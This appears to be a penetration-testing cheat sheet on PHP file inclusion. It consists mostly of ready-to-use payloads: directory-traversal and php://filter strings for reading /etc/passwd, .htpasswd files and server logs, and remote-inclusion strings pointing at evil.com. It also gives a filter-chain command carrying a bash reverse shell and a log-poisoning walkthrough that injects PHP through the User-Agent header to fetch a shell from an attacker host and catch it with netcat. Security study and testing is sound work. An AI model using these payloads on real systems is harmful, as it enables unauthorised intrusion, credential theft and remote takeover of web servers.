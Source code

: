 ```yaml
---
title: File Inclusion
description: Local File Inclusion (LFI) and Remote File Inclusion (RFI) are vulnerabilities that are often found to affect web applications that rely on a scripting run time.
tags:
    - Web
ref:
date: 2023-03-12
draft: false
---
```


## Local File Inclusion (LFI)

```sh
?page=/etc/passwd
?page=../../../../etc/passwd
?page=../../../../../etc/passwd
?page=..//..//..//..//..//etc/passwd
?page=....//....//....//....//etc/passwd
?page=....//....//....//....//....//....//etc/passwd
?page=../../../../../../../../../../../../../../etc/passwd
?page=..\/..\/..\/..\/etc/passwd
?page=..%2F..%2F..%2F..%2Fetc/passwd
?page=..%5C..%5C..%5C..%5cetc/passwd
?page=..%252f..%252f..%252f..%252fetc/passwd
?page=/etc/passwd&
?page=/etc/passwd%00
?page=/etc/passwd%00.inc
?page=/etc/passwd%00.php
?page=http://localhost/index
?page=http:%5c%5cindex
?page=http:%252f%252findex
?page=somedir/../../../../etc/passwd&ext=

# File scheme
?page=file:///etc/passwd
?page=file:%2F%2F%2Fetc%2Fpasswd
?page=file:%252F%252F%252Fetc%252Fpasswd
?page=file%3A///etc/passwd
?page=file%2A%2F%2F%2Fetc%2Fpasswd
?page=file%2A%252F%252F%252Fetc%252Fpasswd
?page=file://var/www/html/index.php
?page=file://var/www/<subdomain>/index.php

# Host
?page=/etc/hosts
# Cron
?page=/etc/crontab

# Apache
?page=/etc/apache2/sites-enabled/000-default.conf
?page=/etc/apache2/.htpasswd
?page=/var/log/apache/access.log
?page=/var/log/apache/error.log
?page=/var/log/apache2/access.log
?page=/var/log/apache2/error.log

# Nginx
?page=/var/log/nginx/access.log
?page=/var/log/nginx/error.log
?page=/etc/nginx/nginx.conf
?page=/etc/nginx/conf.d/.htpasswd
?page=/etc/nginx/sites-available/example.com.conf
?page=/etc/nginx/sites-enabled/example.com.conf
?page=/usr/local/nginx/conf/nginx.conf
?page=/usr/local/etc/nginx/nginx.conf

# PHP Filter
?page=php://filter/resource=/etc/passwd
?page=php://filter/read=string.rot13/resource=index.php
?page=php://filter/convert.base64-encode/resource=index.php
?page=pHp://filter/convert.base64-encode/resource=index.php
?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# Windows
?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## Remote File Inclusion (RFI)

```txt
?page=//evil.com/exploit
?page=%2F%2fevil.com/exploit
?page=%2C%2Cevil.com/exploit
?page=http://evil.com/exploit
?page=http%3A//evil.com/exploit
?page=http%3A%2F%2Fevil%2Ecom/exploit
?page=http%253A%252F%252Fevil%252Ecom/
?page=test@sub.example.com/
```

<br />

## Remote Code Execution (RCE)

[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) is CLI that generates payload for PHP filter bypass and allow us to RCE.  
Below is the payload for reverse shell.

```bash
wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py
python3 php_filter_chain_generator.py --chain "<?php system('bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\"')?>"
```

Then copy the output and paste it to the target.

<br />

## Log Poisoning

### 1. Check if You Can Access the Apache Log File

```sh
# Debian, Ubuntu Linux
/?page=/var/log/apache/access.log
/?page=../../../../var/log/apache/access.log
/?page=/var/log/apache2/access.log
/?page=../../../../var/log/apache2/access.log

# FreeBSD Linux
/?page=/var/log/httpd-access.log
/?page=../../../../var/log/httpd-access.log

# CentOS, Fedora, RedHat Linux
/?page=/var/log/httpd/access_log
/?page=../../../../var/log/httpd/access_log
```

### 2. Prepare the Payload for PHP Reverse Shell

```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

# Edit the values in the payload
$ip = '<attacker-ip>';
$port = 4444;
```

### 3. Open Web Server in Local Machine

```sh
python -m http.server 80
```

### 4. Inject PHP Payload in the User-Agent

Send the GET Request with abusing the User-Agent.  
The payload can be uploaded to the **`/shell.php`** of the target website.

```txt
GET / HTTP/1.1
...
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
```

### 5. Apply the Injection

Refresh the page **`/index.php?page=../../../../var/log/apache2/access.log`** .

### 6. Open Listener for Reverse Shell

In you local machine, open the listener.  
You need to specify the port which you set the section 2.

```sh
nc -lvnp 4444
```

### 7. Gain Access to Shell

Access to **`/shell.php`** of the target website.  
If it goes well, you can get a shell.